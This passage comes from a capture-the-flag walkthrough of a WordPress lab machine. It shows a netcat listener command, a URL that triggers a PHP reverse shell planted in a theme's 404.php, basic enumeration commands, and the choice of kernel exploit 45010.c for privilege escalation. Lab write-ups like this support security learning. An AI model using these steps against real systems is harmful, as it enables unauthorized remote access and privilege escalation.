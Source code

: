 We’ll use a netcat listener to catch our PHP reverse shell.  
**Command**: nc -nvlp 443

To invoke the reverse shell PHP code, launch FireFox with this link.  Note that the link includes the secret directory and the theme directory where the original 404.php file resided.  
![Invoke PHP Reverse Shell](/img/BP1CTF/BP1CTF_WPExploit_2.png)  
**Command**: http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php

After we invoke the PHP reverse shell the browse will appear to hang, and if everything worked properly, netcat should have received our reverse shell.  
![Successful Reverse Shell](/img/BP1CTF/BP1CTF_WPExploit_3.png)  

 | Commands       | Description                                |
 | :---           | :---                                       |
 | nc -nlvp 443   | Start a netcat listener                    |
 | uname -a       | Displays operating system information      |
 | lsb_release -a | Displays distribution specific information |

As expected, we can see that the web server is being run under a low-privileged user, www-data.  Note that the release is Ubuntu 16.04.3 LTS using a 4.10.0-28-generic Linux kernel.  If we review our searchsploit results for ubuntu 16.04 that we did in the Vulnerabilities section, we see that the 45010.c exploit fits our OS and Linux kernel.   
![Searchsploit PE Exploit](/img/BP1CTF/BP1CTF_WPExploit_4.png)  
Since we’ll need a place to write our escalation exploit code, we see that we have full access to the /tmp/ directory.   